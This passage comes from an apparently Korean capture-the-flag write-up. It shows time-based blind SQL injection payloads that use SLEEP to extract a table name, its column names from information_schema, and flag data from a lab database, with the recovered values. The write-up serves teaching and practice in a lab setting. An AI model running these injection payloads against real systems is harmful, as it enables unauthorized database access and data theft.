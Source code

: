 > **테이블 결과:**
```csharp
[2 행]:
1 번째 값 = f → f
2 번째 값 = l → fl
3 번째 값 = a → fla
4 번째 값 = g → flag
5 번째 값 = _ → flag_
6 번째 값 = T → flag_T
7 번째 값 = a → flag_Ta
8 번째 값 = b → flag_Tab
9 번째 값 = l → flag_Tabl
10 번째 값 = e → flag_Table
End
```

- 컬럼 추출:
```sql
views, (select if(ascii(substring((select column_name from information_schema.columns where table_schema='sqli_8' and table_name='flag_Table' limit ?, 1), ?, 1)) =?, SLEEP(3), 0))
```

> **컬럼 결과:**
```csharp
1. idx
2. flagData
3.
4.
5.
```

- 플래그 추출:
```sql
views, (select if(ascii(substring((select flagData from flag_Table limit ?, 1), ?, 1)) =?, SLEEP(3), 0))
```

![플래그](/assets/screenshots/sqli-point/sqli_8_flag.png)

**이렇게 최종적으로 flag를 획득하였다.**

---

## SQL Injection 4

이제 게시판에 접근하여, 게시물 관련 기능에서 SQL Injection이 가능한 지점을 탐색해보겠다.
